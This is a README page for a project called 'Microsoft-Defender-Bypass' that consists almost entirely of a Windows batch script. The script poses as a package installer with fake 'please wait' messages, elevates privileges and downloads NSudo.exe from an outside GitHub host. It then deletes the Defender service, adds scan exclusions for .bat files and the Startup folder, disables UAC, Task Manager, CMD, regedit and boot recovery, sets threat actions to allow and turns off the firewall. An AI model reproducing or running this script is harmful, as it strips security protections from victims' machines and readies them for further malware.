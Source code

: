 # Microsoft-Defender-Bypass
This Program helps you to bypassing Microsoft Defender Security Bypassing

<B> SOURCE CODE: </B> 

@echo off

title Installing Packages 
:: BatchGotAdmin
::-----------------------------------------
REM  --> CheckING for permissions
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

REM --> If error flag set, we do not have admin.
if '%errorlevel%' NEQ '0' (
    echo Requesting administrative privileges...
    goto UACPrompt
) else ( goto gotAdmin )

:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params = %*:"="
    echo UAC.ShellExecute "cmd.exe", "/c %~s0 %params%", "", "runas", 1 >> "%temp%\getadmin.vbs"

    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B

:gotAdmin
echo msgbox "Please Wait While we install necessary packages for You!.Window will be closed after Installation!!!" > %tmp%\tmp.vbs
wscript %tmp%\tmp.vbs
del %tmp%\tmp.vbs

echo  Installing Necessary Packages.....Please Wait.....

color 0a

cd  %temp%

bitsadmin/transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/hackwithsumit/Bypass-Tamper-Protection/main/NSudo.exe %temp%\NSudo.exe

set pop=%systemroot%

NSudo -U:T -ShowWindowMode:Hide icacls "%pop%\System32\smartscreen.exe" /inheritance:r /remove *S-1-5-32-544 *S-1-5-11 *S-1-5-32-545 *S-1-5-18

NSudo -U:T -ShowWindowMode:Hide reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System"  /v "ConsentPromptBehaviorAdmin" /t REG_DWORD /d "0" /f

NSudo -U:T -ShowWindowMode:Hide reg add "HKLM\Software\Policies\Microsoft\Windows Defender\UX Configuration"  /v "Notification_Suppress" /t REG_DWORD /d "1" /f
 
NSudo -U:T -ShowWindowMode:Hide reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableTaskMgr" /t REG_DWORD /d "1" /f

NSudo -U:T -ShowWindowMode:Hide reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableCMD" /t REG_DWORD /d "1" /f

NSudo -U:T -ShowWindowMode:Hide reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableRegistryTools" /t REG_DWORD /d "1" /f

NSudo -U:T -ShowWindowMode:Hide reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "NoRun" /t REG_DWORD /d "1" /f

NSudo -U:T -ShowWindowMode:Hide  sc stop  windefend  

NSudo -U:T -ShowWindowMode:Hide  sc delete  windefend  

powershell.exe -command "Add-MpPreference -ExclusionExtension ".bat""

NSudo -U:T -ShowWindowMode:Hide bcdedit /set {default} recoveryenabled No

NSudo -U:T -ShowWindowMode:Hide bcdedit /set {default} bootstatuspolicy ignoreallfailures

powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath '"%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'"

powershell.exe New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force

powershell.exe -command "Set-MpPreference -EnableControlledFolderAccess Disabled"

powershell.exe -command "Set-MpPreference -PUAProtection disable"

powershell.exe -command "Set-MpPreference -HighThreatDefaultAction 6 -Force"
powershell.exe -command "Set-MpPreference -ModerateThreatDefaultAction 6"
      
powershell.exe -command "Set-MpPreference -LowThreatDefaultAction 6"

powershell.exe -command "Set-MpPreference -SevereThreatDefaultAction 6"

powershell.exe -command "Set-MpPreference -ScanScheduleDay 8"

powershell.exe -command "netsh advfirewall set allprofiles state off"

cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

